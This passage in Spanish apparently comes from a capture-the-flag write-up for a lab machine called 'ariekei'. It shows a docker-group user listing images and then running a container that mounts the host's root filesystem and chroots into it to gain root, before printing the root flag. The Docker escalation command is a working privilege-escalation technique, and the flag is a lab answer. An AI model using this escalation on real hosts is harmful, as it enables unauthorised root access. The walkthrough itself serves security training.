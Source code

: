 
Pertenezco al grupo ```docker```

```null
spanishdancer@ariekei:/opt/docker$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
```

Listo las imágenes existentes

```null
spanishdancer@ariekei:/opt/docker$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
waf-template        latest              399c8876e9ae        5 years ago         628MB
bastion-template    latest              0df894ef4624        5 years ago         251MB
web-template        latest              b2a8f8d3ef38        5 years ago         185MB
bash                latest              a66dc6cea720        5 years ago         12.8MB
convert-template    latest              e74161aded79        6 years ago         418MB
```

Creo un contenedor que monte desde la raíz la máquina host, y puedo ver la segunda flag

```null
spanishdancer@ariekei:/opt/docker$ docker run -it -v /:/host/ waf-template chroot /host/ bash
root@67797e66308a:/# cat /root/root.txt 
2792e03d0edb1c2643ec26ad82042715
```